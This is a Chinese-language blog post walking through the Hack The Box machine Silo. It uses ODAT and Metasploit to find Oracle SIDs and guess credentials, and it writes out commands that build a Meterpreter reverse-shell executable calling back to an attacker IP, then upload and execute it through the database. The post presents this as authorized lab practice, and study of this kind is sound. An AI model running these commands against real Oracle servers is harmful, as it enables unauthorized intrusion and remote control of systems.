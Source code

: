 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tOvvvq2im__E_AJg7nhX-w)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **61** 篇文章，本公众号会每日分享攻防渗透技术给大家。

靶机地址：https://www.hackthebox.eu/home/machines/profile/131

靶机难度：中级（5.0/10）

靶机发布日期：2018 年 8 月 18 日

靶机描述：

Silo focuses mainly on leveraging Oracle to obtain a shell and escalate privileges. It was intended to be completed manually using various tools, however Oracle Database Attack Tool greatly simplifies the process, reducing the difficulty of the machine substantially.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

一、信息收集

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd5z6Bx2hnItH6y0sJGQ0eLicQeGicibB291HxmibtfOLz9oWpTb3Zmvl0Nw/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.82，windows 系统的靶机.... 可以在图中看到 real-life 值很高，偏向于现实环境... 嘿嘿，一台真实的靶机？

官方给的思路：Silo 主要利用 Oracle 获得外壳并提升特权...

今天要对 Oracle 数据库服务器进行渗透了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdVIxg6QKGKPWZPcAZO9vcdbuZkuwkjwylbNqmDE66gQJzHcickFvYIRg/640?wx_fmt=png)

nmap 扫描可以看出，开放了很多端口...80：Microsoft IIS httpd 8.5

以及 1521oracle 的端口开放了 oracle-tns 服务... 直接对这两个渗透...

ODAT：https://github.com/quentinhardy/odat  --- 官方给了 ODAT 脚本的链接...ODAT 是一个开源的代码渗透测试工具，主要用于攻击测试和审计 Oracle 数据库服务器的安全性...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZddOUj3HmcXchUV5M9ibJB4a86giamehZzjJicvibLe7855RQcnbiaLx7Y24g/640?wx_fmt=png)

下载好 ODAT 后... 开始利用 odat.py 对 oracle 渗透....（这是个非常好的脚本... 对开发和数据库运维人员有很大的帮助检查问题）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdTU6GJG6LxagJKAXm4AmgLV2UQScSQbaeQN0T0xxwFgw5KKo6JL5pow/640?wx_fmt=png)

需要下载安装 ODAT 版本才可以运行脚本...

这里安装可以参考 https://github.com/quentinhardy/odat 下面的内容....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdOCiaMJZibpBYdRnVibrKFQTjAicKlwBl044VXCegXBKQDW5OmLhocNcYCw/640?wx_fmt=png)

我就不介绍安装步骤了，我这里安装了 4 次... 也算是熟悉了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd1m1iaj5Z4LaBOywgO9xFJlTO8niahexF5n4wCeWRNbEHicso1KXb9njkQ/640?wx_fmt=png)

经过利用 oday 扫描发现两个 SID：

```
XE、XEXDB
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdNLvNEazGniana8EuuPr7rQyGxz3yPnjSuesd1aCuFGdcz6B3Sfhumtg/640?wx_fmt=png)

```
auxiliary/scanner/oracle/sid_brute
```

另外一种方法是利用 MSF 内核，发现这个更快就能发现....

现在知道了存在 SID，还需要知道凭证才可以登陆... 目的是登陆数据库...

这里需要暴力破解....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd8Tv986EdVuGiaMqh0fJUz3TnBibMiapTAUh17B36TJcwRdHNJJrVut6Dw/640?wx_fmt=png)

也可以利用 MSF... 去爆破...

二、提权

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/17cKMwFOF7C0cpwjNSL0d7uN64rs4JnWiaiasQB1OyCTxuHmh4V5h2KHibcIsOL8qyJKiaCslE1o7BfYvNjzoMeib5w/640?wx_fmt=png)

方法 1：

![](https://mmbiz.qpic.cn/mmbiz_png/8Tn9tLDmZAdE5EwSMkwRmic3fCakpD1FZNUIaHa7Q4TOiblyROUQSY0Eic49nd5jozCTTYa8icpKle09trnZlgXdEw/640?wx_fmt=png)

方法 1 我使用了最暴力的方法提权... 利用 odat.py....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdFMibPHVLPRlSBG5dm9pg6ZO79nEIQz6VMb2Xmr1oPwFsqH8FVJTq9fQ/640?wx_fmt=png)

```
ython3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/dayupasswd.txt
```

爆破发现用户名密码：

```
scott/tiger
```

 （这里我使用自己的密码本是我做过几次了.. 使用 accounts 自带的密码本是可以爆破的，就是花了几个小时... 所以我就演示方法）  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdCeMicDV7ClPHWDfMc4l228QnR7A2Z8PoibIbdrVZlHhsaVnyX3pJ6zrw/640?wx_fmt=png)

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.16 lport=6666 -f exe > dayu.exe
```

生成 EXE 反向 shell 文件...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd0M116e0PicfB1yH8T9Pue2j3UQxunG3TmoD8b8iaRP3xWaAXzPLSBzcw/640?wx_fmt=png)

```
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ dayu.exe dayu.exe
```

使用 odat.py 上传成功反向 shell 脚本...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdZZmRH1d33psD1hOMN4Gbq4X74qN79IdQ3OOGSKamxoglsAO74K7yiaQ/640?wx_fmt=png)

```
python3 odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ dayu.exe
```

可以看到通过 odat 脚本上传了反向 shell 后，在通过 odat 执行了 shell，获得反向外壳，成功提权获得 root.txt....  

![](https://mmbiz.qpic.cn/mmbiz_png/17cKMwFOF7C0cpwjNSL0d7uN64rs4JnWiaiasQB1OyCTxuHmh4V5h2KHibcIsOL8qyJKiaCslE1o7BfYvNjzoMeib5w/640?wx_fmt=png)

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_png/8Tn9tLDmZAdE5EwSMkwRmic3fCakpD1FZNUIaHa7Q4TOiblyROUQSY0Eic49nd5jozCTTYa8icpKle09trnZlgXdEw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zdtr35TfVlkAlSoC1Ercxibzmib4rj1pbeUa0HyYMTcenV29sIBCzpLicbA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdTf3xl7uCN6c4HJicYhHqHQyLAHlxvQkPr74RergzNZNxbAHpdbzGFmQ/640?wx_fmt=png)

可以看到此用户允许修改用户密码、创建表格、CVE-2018-3004 创建文件、CVE-2012-3137 允许使用密匙等等.....

可以通过上传文件... 或者写 shell.... 或者使用密匙登录获得低权 shell...

可以通过 smbserver.py 创建共享，文件上传... 然后数据库里头存在 administrator 的密码... 我就不写出来了，最近有挺多事的...

这里想怎么玩怎么玩，非常非常好的一台数据库靶机... 可以学到很多东西....

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

**2021.6.9~2021.6.16 号开启收徒模式，实战教学，有想法的私聊！**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)